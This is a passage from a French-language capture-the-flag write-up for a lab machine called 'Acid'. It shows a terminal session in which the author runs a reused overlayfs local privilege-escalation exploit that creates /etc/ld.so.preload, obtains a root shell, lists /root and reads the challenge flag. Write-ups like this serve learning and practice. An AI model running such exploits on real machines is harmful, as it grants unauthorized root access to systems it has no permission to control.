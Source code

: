 Le binaire `overlayfs` n'est plus présent mais j'en ai un sous la main du précédent CTF :

```shellsession
makke@acid:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(makke)
# cd /root
# ls
# ls -al
total 68
drwx------  5 root root  4096 Aug 24  2015 .
drwxr-xr-x 22 root root  4096 Aug 24  2015 ..
-rw-------  1 root root 23934 Aug 24  2015 .bash_history
-rw-r--r--  1 root root  3135 Aug  8  2015 .bashrc
drwx------  2 root root  4096 Aug 24  2015 .cache
drwx------  3 root root  4096 Aug  6  2015 .config
drwx------  3 root root  4096 Aug  6  2015 .dbus
-rw-r--r--  1 root root   284 Aug 24  2015 .flag.txt
-rw-------  1 root root  2775 Aug 24  2015 .mysql_history
-rw-------  1 root root   147 Aug 24  2015 .nano_history
-rw-r--r--  1 root root   140 Feb 20  2014 .profile
-rw-r--r--  1 root root    66 Aug  6  2015 .selected_editor
# cat .flag.txt
Dear Hax0r,

You have completed the Challenge Successfully.

Your Flag is : "Black@Current@Ice-Cream"

Kind & Best Regards

-ACiD

Twitter:https://twitter.com/m_avinash143
Facebook: https://www.facebook.com/M.avinash143
LinkedIN: https://in.linkedin.com/pub/avinash-thapa/101/406/4b5
```

*Publié le 3 janvier 2023*
